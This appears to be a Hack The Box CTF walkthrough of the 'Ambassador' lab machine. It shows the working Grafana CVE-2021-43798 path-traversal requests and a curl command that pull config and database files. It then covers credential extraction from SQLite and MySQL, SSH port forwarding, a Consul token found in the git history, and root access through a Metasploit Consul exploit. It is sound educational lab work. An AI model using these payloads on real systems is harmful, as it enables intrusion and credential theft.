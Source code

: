 ```yaml
---
layout: post
title: Ambassador
date: 2023-01-08 18:32:00 -0500
categories: [Walkthrough, Hackthebox, CTF]
tags: [grafana, curl, devops, sqlite, mysql, linux, cve-2021-43798, consul, git]
---
```


- `sudo nmap -p- -T4 10.10.11.183 -vvvv`

Ports open: 22,80,3000,3006

- `sudo nmap -p22,80,3000,3306 -sC -sV -O 10.10.11.183 -vvvv`

## # Port 80

Nothing here I ran feroxbuster with medium raft directories but we do get a note

We get a note

- Use the **developer** account to SSH, DevOps will give you the password.

## # Port 3000 

Here we find a Grafana instance. Grafana is an open-source monitoring playform that allows you to alert and querty and visualize different data sourced, like databases. The key must be here? running feroxbuster yeild a shitload of nothing, checking the source of the grafana page and searching for "version" we find the Grafana version 8.2.0.

- `https://www.exploit-db.com/exploits/50581` - CVE-2021-43798 - Grafana versions 8.0.0-beta1 through 8.3.0 is vulnerable to directory traversal, allowing access to local files. The exploit works by being allowed to use the plugins in the api then directory traversal to read whatever you are allowed to ready on the system.

This script will use the exploit by doing all the work allowing us to view files use we can use this to read the grafana config files located at `/etc/grafana/grafana.ini` then use those credentials to login to grafana. 

```
# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
```

We can also exploit this manually be sending a burpsuite request:

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/grafana/grafana.ini HTTP/1.1
Host: ambassador.htb:3000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: grafana_session=623f4d37681413f3b35dcd3db3830779
Connection: close
```

Okay so the exploit above doesnt allow us to really do anything other than read the files...Can we use a curl request to download the grafana.db On macOS and Linux, the default location is `/var/lib/grafana/grafana.db`.

- Burpsuite repeater request:

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db HTTP/1.1
Host: ambassador.htb:3000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: grafana_session=623f4d37681413f3b35dcd3db3830779
Connection: close
```

This pulls up a database

we can download this with curl

- `curl --path-as-is http://ambassador.htb:3000/public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db -o grafana.db`

And open in `sqlite3`

we can use `.tables` to see all tables then `SELECT * FROM user;` where we can see admin credentials.

1|0|admin|admin@localhost||dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab069|0X27trve2u|f960YdtaMF||1|1|0||2022-03-13 20:26:45|2022-09-01 22:39:38|0|2023-01-09 08:20:50|0

`dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab069`

I thought this went soemwhere but after a ahwile of nothing went back in and checked the data_source table. I really, really, should have looked at all of the tables.

`2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2023-01-08 22:39:14|0|{}|1|uKewFgM4z`

- `mysql -u grafana -h ambassador.htb -p`

```
SHOW DATABASES;
SHOW tables;
SELECT * FROM USERS;
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
```

All of the other databases we dont have access to.

- `echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d` gives us `anEnglishManInNewYork027468`

and we are into the system!

# Privilege Escalation 


r-- 1 developer developer 93 Sep  2 02:28 /home/developer/.gitconfig
drwxrwxr-x 8 root root 4096 Mar 14  2022 /opt/my-app/.git

we find some git files here! this being a devops server probably the way to our flag

notice there is some stuff happening inside of /opt/ specifically a django server.

running `netstat -tulp` we can see there is some addesses that we are only able to access on localhost. in order to access these we need to setup a port-forward and can do this with via ssh.

```
tcp        0      0 localhost:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8300          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8301          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8302          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8500          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8600          0.0.0.0:*               LISTEN      -         
```

the consul service is only available on 8500 remotely

- `ssh -L 8500:localhost:8500 developer@ambassador.htb`

After creating a tunnel and checking out the 830x ports and not getting anywhere, I think his more to do with the git located here thought. So going to look into the git.

- `git log` shows git commit hisotry
- `git show` check the git commits in the history

checking the git commits so come accross a token of some sort `git show c982db8eff6f10f8f3a7d802f79f2705e7a21b55` we find `consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWO`

checking metasploit there are some RCEs `multi/misc/consul_service_exec` 

using this exploit its pretty easy to get root with the ACL token rhosts set to localhost (because we forwarded the port) and the just the LHOST and LPORT.

cd to root for the last flag.
